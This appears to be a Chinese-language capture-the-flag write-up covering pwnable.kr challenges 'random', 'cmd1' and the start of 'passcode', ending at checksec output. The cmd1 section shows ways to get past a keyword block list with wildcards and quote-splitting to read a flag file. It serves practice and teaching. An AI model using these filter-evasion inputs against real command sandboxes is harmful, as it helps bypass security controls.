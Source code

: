 `0xdeadbeef^1804289383`拿到flag:-)

```shell
random@ubuntu:~$ ./random 
3039230856
Good!
**********************************
```



### cmd1

> Description：Mommy! what is PATH environment in Linux?
>
> On Jul 30,2018

这题类似沙盒逃逸，不过简单很多，题目将带有`flag sh tmp`子串的命令禁用，并且修改了环境变量.

修改环境变量的结果是`cat`需要`/bin/cat`才能执行

注：cat的所在位置可以通过`whereis`命令找到

#### 方法一：

不能有`flag`我们可以使用通配符来达到目的

比如说`./cmd1 "/bin/cat f*"`或是`./cmd1 "/bin/cat fla?"`都可以

#### 方法二：

分割字符串

`./cmd1 '/bin/cat ”f“ag' `



### passcode

>Description：Mommy told me to make a passcode based login system.
>My initial C code was compiled without any error!
>Well, there was some compiler warning, but who cares about that?
>
>On Jul 30,2018

首先`file passcode`，是32位的elf，于是先从pwnable\.kr上把它copy下来，便于本地分析

```shell
scp -P 2222 passcode@143.248.249.64:/home/passcode/passcode /home/****/Desktop
```

看源码会发现`passcode1`和`passcode2`的赋值没加`&`，所以我们的**输入**会当做**地址**将其**原有的地址覆盖**，但由于题目check的`passcode1 = 338150 `和`passcode2 = 13371337`这两个地址**不可写**，在所以在运行时会报错。

并且`checksec passcode`可以看到

```shell
$ checksec passcode
[*] 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found #开启栈保护
    NX:       NX enabled #堆栈不可执行，即不能用shellcode的栈溢出方式getshell
    PIE:      No PIE (0x8048000) #基址不随机     
```
